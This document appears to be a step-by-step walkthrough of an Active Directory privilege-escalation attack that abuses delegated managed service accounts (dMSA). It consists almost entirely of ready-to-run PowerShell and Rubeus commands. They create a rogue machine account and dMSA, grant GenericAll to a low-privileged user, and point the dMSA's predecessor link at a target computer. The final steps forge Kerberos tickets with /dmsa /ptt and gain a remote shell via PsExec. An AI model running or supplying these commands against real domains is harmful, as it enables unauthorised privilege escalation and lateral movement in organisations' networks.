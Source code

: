### **1. Create a Computer Account**

```powershell
New-ADComputer -Name BadMachine1234 `
    -SamAccountName "BadMachine1234$" `
    -AccountPassword (ConvertTo-SecureString -String "Passw0rd@123456" -AsPlainText -Force) `
    -Enabled $true `
    -Path "OU=SomeOU,DC=example,DC=com" `
    -PassThru `
    -Server "example.com"
```

---

### **2. Derive AES256 Hash using Rubeus**

```powershell
Rubeus.exe hash /password:Passw0rd@123456 /user:BadMachine1234$ /domain:example.com
```

Look for output line like:

```plaintext
aes256_cts_hmac_sha1 : 11223344556677889900AABBCCDDEEFF00112233445566778899AABBCCDDEEFF
```

---

### **3. Create the dMSA Account**

```powershell
New-ADServiceAccount -Name BadDMSA1234 `
    -DNSHostName BadDMSA1234.example.com `
    -CreateDelegatedServiceAccount `
    -KerberosEncryptionType AES256 `
    -PrincipalsAllowedToRetrieveManagedPassword "BadMachine1234$" `
    -Path "OU=SomeOU,DC=example,DC=com"
```

---

### **4. Grant `GenericAll` to Low Privileged User**

```powershell
$sid = (Get-ADUser -Identity "lowuser").SID
$acl = Get-Acl "AD:\CN=BadDMSA1234,OU=SomeOU,DC=example,DC=com"
$rule = New-Object System.DirectoryServices.ActiveDirectoryAccessRule $sid, "GenericAll", "Allow"
$acl.AddAccessRule($rule)
Set-Acl -Path "AD:\CN=BadDMSA1234,OU=SomeOU,DC=example,DC=com" -AclObject $acl
```

---

### **5. Set Delegation Attributes**

```powershell
Set-ADServiceAccount -Identity BadDMSA1234 -Replace @{
    'msDS-ManagedAccountPrecededByLink' = 'CN=TargetComputer,OU=Computers,DC=example,DC=com'
    'msDS-DelegatedMSAState' = 2
}
```

---

### **6. Check dMSA Attributes**

```powershell
Get-ADServiceAccount -Identity BadDMSA1234 -Properties msDS-ManagedAccountPrecededByLink, msDS-DelegatedMSAState |
    Select-Object Name, msDS-ManagedAccountPrecededByLink, msDS-DelegatedMSAState
```

---

### **7. Test Access (Pre-Impersonation)**

```powershell
dir \\TargetHost\c$
```

---

### **8. Request TGT with Machine Account**

```powershell
Rubeus.exe asktgt /user:BadMachine1234$ /aes256:11223344556677889900AABBCCDDEEFF00112233445566778899AABBCCDDEEFF /domain:example.com /nowrap
```

---

### **9. Extract Base64 TGT**

Manually extract from the above Rubeus output

---

### **10. Request TGS Using dMSA**

```powershell
Rubeus.exe asktgs /targetuser:BadDMSA1234$ /service:krbtgt/example.com /dmsa /opsec /ptt /nowrap  /ticket:<Base64TGT>
```

---

### **11. Test Access (Post-Impersonation)**

```powershell
dir \\TargetHost\c$
```

```powershell
psExec.exe \\TargetHost cmd
```

---
